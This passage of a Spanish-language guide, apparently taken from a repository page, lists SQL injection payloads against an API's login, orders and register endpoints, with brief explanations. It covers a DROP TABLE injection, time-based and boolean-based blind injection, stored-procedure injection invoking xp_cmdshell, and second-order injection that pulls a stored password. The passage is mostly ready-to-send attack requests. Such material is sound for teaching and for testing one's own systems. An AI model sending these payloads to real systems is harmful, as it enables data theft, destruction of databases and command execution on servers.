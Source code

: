 **¿Qué hace?**
- Intenta ejecutar DROP TABLE para eliminar la tabla users
- Usa `';` para terminar la query original y ejecutar nueva query

---

## **2. 🔥 INYECCIONES SQL AVANZADAS**

### **A) Time-Based Blind SQL Injection**

```json
POST /api/auth/login
Content-Type: application/json

{
  "email": "test@test.com'; IF (1=1) WAITFOR DELAY '00:00:05' --",
  "password": "test"
}
```

**¿Qué hace?**
- Si la condición es verdadera, la base de datos espera 5 segundos
- Permite determinar información sin ver respuestas directas

### **B) Boolean-Based Blind Injection**

```json
GET /api/orders?search=1' AND (SELECT COUNT(*) FROM users WHERE email LIKE 'admin%') > 0 --
```

**¿Qué hace?**
- Determina si existe un usuario admin por el comportamiento de la respuesta
- No necesita ver los datos, solo el comportamiento (true/false)

### **C) Stored Procedure Injection**

```json
POST /api/orders
Content-Type: application/json

{
  "orderData": {
    "user_id": "1; EXEC xp_cmdshell('dir'); --",
    "total_amount": 100,
    "shipping_address": "Test Address",
    "payment_method": "credit_card"
  }
}
```

### **D) Second-Order SQL Injection**

```json
// Paso 1: Registrar usuario con payload
POST /api/auth/register
{
  "name": "admin'+(SELECT password FROM users WHERE id=1)+'",
  "email": "test2@test.com",
  "password": "123456"
}

// Paso 2: El payload se ejecuta cuando se usa el nombre en otra query
GET /api/users/profile
```

---